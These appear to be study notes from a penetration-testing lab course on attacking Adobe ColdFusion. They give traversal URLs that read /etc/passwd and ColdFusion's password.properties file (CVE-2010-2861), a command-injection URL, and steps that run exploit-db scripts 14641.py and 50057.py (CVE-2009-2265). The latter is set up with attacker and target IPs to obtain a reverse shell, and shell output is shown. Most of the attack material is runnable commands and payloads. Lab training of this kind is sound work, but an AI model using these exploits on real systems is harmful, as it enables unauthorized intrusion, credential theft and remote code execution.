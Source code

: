 # 23 coldfusion attacking

searchsploit adobe coldfusion

## Directory Traversal

Example of vulnerable code : [#fileList.name#](uploads/#fileList.name#)\


http://example.com/index.cfm?directory=../../../etc/\&file=passwd

CVE-2010-2861 is the Adobe ColdFusion - Directory Traversal exploit discovered by searchsploit. It is a vulnerability in ColdFusion that allows attackers to conduct path traversal attacks.

CFIDE/administrator/settings/mappings.cfm logging/settings.cfm datasources/index.cfm j2eepackaging/editarchive.cfm CFIDE/administrator/enter.cfm

http://www.example.com/CFIDE/administrator/settings/mappings.cfm?locale=en http://www.example.com/CFIDE/administrator/settings/mappings.cfm?locale=../../../../../etc/passwd

searchsploit -p 14641 cp /usr/share/exploitdb/exploits/multiple/remote/14641.py . python2 14641.py 10.129.204.230 8500 "../../../../../../../../ColdFusion8/lib/password.properties"

## Unauthenticated RCE

\--> execute arbitrary code on a vulnerable system without requiring authentication

Example of vulnerable code :

http://www.example.com/index.cfm?%3B%20echo%20%22This%20server%20has%20been%20compromised%21%22%20%3E%20C%3A%5Ccompromise.txt

http://www.example.com/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload\&Type=File\&CurrentFolder=

\--> CVE-2009-2265

searchsploit -p 50057 cp /usr/share/exploitdb/exploits/cfm/webapps/50057.py . vi 50057.py if **name** == '**main**': # Define some information lhost = '10.10.14.55' # HTB VPN IP lport = 4444 # A port not in use on localhost rhost = "10.129.247.30" # Target IP rport = 8500 # Target Port filename = uuid.uuid4().hex

python3 50057.py

## LAB

searchsploit -p 50057 cp /usr/share/exploitdb/exploits/cfm/webapps/50057.py . vi 50057.py if **name** == '**main**': # Define some information lhost = '10.10.14.205' # HTB VPN IP lport = 4444 # A port not in use on localhost rhost = "10.129.200.101" # Target IP rport = 8500 # Target Port filename = uuid.uuid4().hex

python3 50057.py

C:\ColdFusion8\runtime\bin>whoami whoami arctic\tolis
